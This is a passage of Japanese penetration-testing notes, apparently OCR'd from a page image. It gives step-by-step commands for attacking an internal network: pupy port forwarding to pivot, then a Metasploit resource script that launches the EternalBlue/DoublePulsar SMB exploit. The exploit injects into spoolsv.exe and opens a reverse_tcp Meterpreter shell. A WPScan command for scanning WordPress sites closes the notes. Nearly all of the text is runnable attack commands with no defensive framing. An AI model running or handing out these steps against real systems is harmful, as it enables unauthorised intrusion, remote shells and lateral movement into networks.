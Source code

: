 # use doublepulser
# Architecture > x64
# Set Functionは RunDLLにする。
# DLLPayloadは、上で作った、dllを指定
execute で、meterpreter に着信する。

・pupyとmetasploitのEternalBlueを使用してインターナルネットワーク【攻撃端末⇔グローバルPC⇔インターナルPC】を攻撃した例
pupyでフォワーディング。
>> run network/forward -L 135:【攻撃対象のインターナルPCのIP】:135
>> run network/forward -L 445:【攻撃対象のインターナルPCのIP】:445
>> run network/forward -R 0.0.0.0:6969:127.0.0.1:4444
>> run network/forward -l
WiFiセグメントをeth0に追加。
ip a a 【攻撃対象のインターナルPCのIP】/24 dev eth0
メタスプロイト実行
# msfconsole
msf > resource moto.rc
resource (moto.rc)> use multi/handler
resource (moto.rc)> set payload windows/meterpreter/reverse_tcp
resource (moto.rc)> set lhost 127.0.0.1
resource (moto.rc)> set lport 4444
resource (moto.rc)> run
resource (moto.rc)> use exploit/windows/smb/eternalblue_doublepulsar
resource (moto.rc)> set payload windows/meterpreter/reverse_tcp
resource (moto.rc)> set rhost 127.0.0.1
resource (moto.rc)> set lhost 【グローバルPCのIP】
resource (moto.rc)> set lport 6969
resource (moto.rc)> set processinject spoolsv.exe
msf exploit(eternalblue_doublepulsar) > run
msf exploit(eternalblue_doublepulsar) > session -l

上記の理解を深めるには、この記事がわかりやすい。
https://n-lab.site/?p=138

・wordpressのスキャン
WPSCAN
https://github.com/wpscanteam/wpscan
例
# ruby wpscan.rb -u 【wordpressのURL】

■攻撃方法の例
・metasploit(eternalblue時に下記を使用)
msfconsole
use exploit/windows/smb/eternalblue_doublepulsar
set payload windows/meterpreter/reverse_tcp
